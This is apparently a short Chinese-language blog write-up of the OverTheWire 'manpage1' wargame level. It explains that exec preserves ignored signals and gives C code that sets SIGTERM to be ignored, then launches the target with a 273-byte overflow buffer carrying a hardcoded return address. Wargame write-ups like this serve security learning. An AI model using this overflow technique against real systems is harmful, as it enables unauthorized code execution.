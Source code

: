 ```yaml
---
title: manpage1
author: rk700
layout: post
redirect_from: /writeup/2014/07/18/manpage1
tags:
  - OverTheWire
  - exploit
---
```

exec的manual里是这么说的

> Except for SIGCHLD, signals set to be ignored (SIG_IGN) by the calling process image shall be set to be ignored by the new process image.

于是我们先把SIGTERM设为忽略，再调用manpage1 

{% highlight c %}
#include <signal.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main (int argc, char *args[]) {
    char arg1[273];
    memset(arg1, 'A', sizeof arg1);
    strncpy(arg1+268, "\xf1\xd8\xff\xff", 5);
    signal(SIGTERM, SIG_IGN);
    //execl("./././././envAddr", "", arg1, NULL);
    execl("/manpage/manpage1", "", arg1, NULL);
}
{% endhighlight %}